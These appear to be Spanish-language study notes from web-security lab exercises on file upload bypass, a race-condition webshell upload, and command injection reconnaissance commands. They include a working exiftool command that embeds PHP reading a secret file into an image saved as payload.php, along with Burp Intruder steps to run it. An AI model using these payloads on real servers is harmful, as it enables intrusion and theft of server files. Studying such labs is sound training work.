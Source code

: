 Los servers verifican los archivos fijándose en los primeros bytes pj  una imagen empieza por: `FF D8 FF`

A partir de una foto con la herramienta exiftool comentamos el payload para que la web lo procese
`exiftool -comment="<?php echo 'SECRET -> ' . file_get_contents('/home/carlos/secret') . ' <- AQUI '; ?>" imagen.jpg -o payload.php

![[Pasted image 20240227122933.png]]
Nos fijamos que se adhiere el comentario, nos damos cuenta que tanto el .jpg como el .php con hexeditor empiezan por los mismos bytes

![[Pasted image 20240227123014.png]]
En HTTP history, añadiremos el filtro de image![[Pasted image 20240227123807.png]]
Vemos que aunque sea un .php es una imagen con texto detrás
![[Pasted image 20240227123713.png]]
Nos permite la subida y al mandarlo al repeater podemos ver la respuesta del servidor con el secreto concatenado

![[Pasted image 20240227123733.png]]
![[Pasted image 20240227123748.png]]

### Lab - webshell upload race condiction

Una de las formas es
Mandamos a intruder my-account/avatars y /files/avatars/exploit.php
Separamos en grupos y conexiones, dejamos los dos payloads en exploit.php, mandamos una vez el POST y con ctrl + espacio mandamos 5 veces el GET hasta que salga el secreto
![[Pasted image 20240227130033.png]]

Mandamos a intruder my-account/avatars y /files/avatars/exploit.php
Dejamos los dos payload así:
#importante Dejamos el payload a exploit.php
![[Pasted image 20240227132740.png]]
Atacamos primero con POST y luego con GET hasta que salgan coode 200
![[Pasted image 20240227132430.png]]
# [Mistery Lab done]
# Comand Injection

| Propósito de mando        | Linux         | Ventanas        |
| ------------------------- | ------------- | --------------- |
| Nombre del usuario actual | `whoami`      | `whoami`        |
| Sistema operativo         | `uname -a`    | `ver`           |
| Configuración de la red   | `ifconfig`    | `ipconfig /all` |
| Conexiones en red         | `netstat -an` | `netstat -an`   |
| Procesos de ejecución     | `ps -ef`      | `tasklist`      |
## Evitar Command Injection
